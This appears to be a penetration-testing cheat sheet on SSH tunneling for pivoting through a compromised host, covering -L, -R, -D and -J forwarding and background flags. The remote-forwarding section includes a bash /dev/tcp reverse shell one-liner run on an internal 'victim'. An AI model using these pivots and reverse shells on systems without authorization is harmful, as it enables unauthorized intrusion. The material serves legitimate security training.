


# 🔐 SSH Tunneling & Port Forwarding

Secure Shell (SSH) is the bedrock of network pivoting. If you have SSH access to a target, you often don't need external tools like Chisel or Ligolo-ng—native SSH can handle local, remote, and dynamic port forwarding out of the box.

---

## 1. Local Port Forwarding (`-L`)

**Goal:** Access an internal service on the target network from your local attack machine.

Imagine the compromised target (`10.10.10.5`) has a web application running on `localhost:8080`, or it can reach an internal database at `10.10.10.10:3306`. You want to interact with these services from your Kali VM.

**Syntax:** `ssh -L [local_bind_ip:]<local_port>:<target_ip>:<target_port> user@ssh_server`



### Example: Forwarding Target's Localhost
```bash
# Binds port 8080 on your Kali box to port 8080 on the target's localhost
ssh -L 8080:127.0.0.1:8080 user@10.10.10.5
```
*You can now visit `http://127.0.0.1:8080` in your local browser.*

### Example: Forwarding an Internal Network Service
```bash
# Binds port 3306 on your Kali box to 10.10.10.10's MySQL port via the compromised host
ssh -L 3306:10.10.10.10:3306 user@10.10.10.5
```

---

## 2. Remote Port Forwarding (`-R`)

**Goal:** Expose a service on your local attack machine to the internal network.

This is highly useful for **catching reverse shells** or hosting a local Python HTTP server (`python3 -m http.server`) so that internal machines can download payloads from you.

**Syntax:** `ssh -R [target_bind_ip:]<target_port>:<local_ip>:<local_port> user@ssh_server`



### Example: Catching a Reverse Shell
Your netcat listener is running locally on port `4444`. You want the internal network to send shells to the compromised host (`10.10.10.5`) on port `8888`, which will then forward them to your Kali box.

```bash
# Tells the target (10.10.10.5) to listen on port 8888 and forward traffic back to your port 4444
ssh -R 8888:127.0.0.1:4444 user@10.10.10.5
```

**Executing the Payload:**
On the deep internal victim (`10.10.20.5`), you execute the reverse shell pointing to the compromised host that has the SSH tunnel open:
```bash
bash -i >& /dev/tcp/10.10.10.5/8888 0>&1
```

*Note: The target executes the reverse shell payload connecting to `127.0.0.1:8888` on its own machine, or its internal IP `10.10.10.5:8888` depending on GatewayPorts settings.*

!!! WARNING
    **GatewayPorts:** By default, remote port forwarding (`-R`) only binds to `127.0.0.1` on the target. If you want the target to listen on `0.0.0.0` (so *other* internal machines can connect to it), the target's `/etc/ssh/sshd_config` must have `GatewayPorts yes` or `GatewayPorts clientspecified`.

---

## 3. Dynamic Port Forwarding (`-D`)

**Goal:** Create a SOCKS proxy to route various tools (like a browser or Nmap) into the target network.

Instead of forwarding a single port, `-D` creates a local SOCKS4/5 proxy server. You can then use Proxychains or browser proxy settings to send traffic through it.

**Syntax:** `ssh -D [local_bind_ip:]<local_port> user@ssh_server`


### Example: Creating a SOCKS Proxy
```bash
# Opens a SOCKS proxy on your Kali box at port 9050
ssh -D 9050 user@10.10.10.5
```
You can now configure `/etc/proxychains4.conf` to use `socks5 127.0.0.1 9050`.

---

## 4. Jump Hosts (`-J`)

**Goal:** Chain SSH connections seamlessly.

If you need to SSH into `Host B`, but you can only reach it by first SSHing into `Host A`, you don't need to manually SSH into A and then run SSH again. Use the `-J` (JumpHost) flag.

**Syntax:** `ssh -J user1@hostA user2@hostB`

### Example: Double Pivoting via SSH
```bash
# SSH into 10.10.20.10 using 10.10.10.5 as the jump point
ssh -J userA@10.10.10.5 userB@10.10.20.10
```

---

## 5. Crucial Quality of Life Flags

When creating tunnels, you usually don't want a full interactive shell cluttering your terminal. Use these flags to create "stealthy" or background tunnels:

*   **`-N`**: Do not execute a remote command. Just set up the port forwarding.
*   **`-f`**: Run SSH in the background (fork to background) right before command execution.
*   **`-T`**: Disable pseudo-terminal allocation (useful if the user doesn't have a valid shell like `/bin/bash`).

### The Ultimate Tunneling Command
```bash
# Creates a backgrounded SOCKS proxy without spawning a shell
ssh -D 9050 -N -f -T user@10.10.10.5
```
